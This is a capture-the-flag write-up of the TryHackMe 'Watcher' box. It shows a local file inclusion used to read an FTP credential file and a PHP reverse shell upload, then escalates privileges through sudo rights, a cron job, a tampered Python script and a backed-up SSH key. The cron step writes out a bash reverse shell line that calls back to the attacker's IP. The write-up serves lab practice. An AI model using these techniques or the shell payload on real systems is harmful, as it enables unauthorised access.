

#### Watcher is a medium-level box on tryhackme which, as the description states, required numerous steps of priviledge escalation which was pretty fun to do. I had managed to root this on my own, without asking for help, which made it pretty satisfying for me.

## Enumeration
#### I'm making it a habit to add the IP of the machine to the /etc/hosts file. Starting off with a quick nmap scan, we see that there are three ports open on the machine.


#### Since we don't have credentials for ssh and ftp, we explore the http page first. It was a page with a corkplacemats catalog. While dirbuster was running on the background, I proceeded to do a manual check for common directories/files and stumbled upon robots.txt.


#### Here we have our first flag and a secret file which we can't access. Opening a page on any corkplacemat redirects us to a url that is passed as an argument to a php code. This can lead to a local file inclusion vulnerability which proved to be the case.



#### With this LFI vuln, we can now read the secret file and it presents us the ftp creds + the ftp directory.
```
watcher.thm/post.php?post=secret_file_do_not_read.txt
Hi Mat, The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files. Will ----------
[REDACTED]
```

#### When we login to the ftp server, we have the second flag waiting for us and we find out that we can write to the files directory.



#### The plan after this was to upload a php reverse shell to the files directory then leverage the LFI again to access the file and pop a shell on our netcat listener. Doing a quick find command afterwards will reveal the third flag and the location of the other flags.



## Tony
#### We can't cd into the directories of Mat and Will, but we can for Tony, so that's the first step for our privesc. On Tony's home directory, we have the 4th flag, a note, and a jobs directory which contains some bash script. Trying to simply read the flag presents us with a permission denied response since our user is still www-data. Checking our sudo permissions reveals that we can run any command as tony.

```
www-data@watcher:/home/toby$ cat flag_4.txt
cat: flag_4.txt: Permission denied

www-data@watcher:/home/toby$ sudo -l
[...]
User www-data may run the following commands on watcher:
	(toby) NOPASSWD: ALL

www-data@watcher:/home/toby$ sudo -u toby cat flag_4.txt
FLAG{redacted}

www-data@watcher:/home/toby$ cat note.txt
Hi Toby,
I've got the cron jobs set up now so don't worry about getting that done.
Mat
```

#### In the note, mat mentions something about cronjobs so I checked /etc/crontab and we see that the script in the toby/jobs directory runs as the user mat. 



#### We can simply append a bash reverse shell payload to escalate our user to mat.

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
bash -i >& /dev/tcp/10.10.211.212/4243 0>&1
```



## Mat
#### From here we can get the fifth flag. Checking the other files in the directory reveals the same pattern such as with toby: we are left with a note and this time a vulnerable python script.

```
mat@watcher:~$ cat note.txt
Hi Mat,
I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.
Will

mat@watcher:~$ sudo -l
[...]
User mat may run the following commands on watcher:
	(will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```
##### will_script.py

##### cmd.py


#### So we have the capability to run as a higher-priviledged user using the script which simply takes an argument from the command line and executes a command based on the choice. But what's the vulnerability here?

#### I think the intended way was to do a module injection attack by making a fake os.py script in the same directory so that python will import this instead of the real os module. But what I did was to simply write a python reverse shell payload to one of the choices in the cmd.py script


#### Running the script as will spawns yet another shell for us.
```
mat@watcher:~$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py 1

#: on another listener
root@root:~# nc -lvnp 4244
will@watcher:~$ 
```

## Will
#### After getting the sixth flag, checking the groups of will reveals a rather uncommon group named `adm`. As running some privesc scripts returned nothing important, I decided to find all the files owned by the adm group.



#### So far, the most interesting one is the /opt/backups/key.b64 file. I then started an http server and retrieved the file; after decoding I found out that it was an ssh private key. We can now use this private key to ssh as the root user.

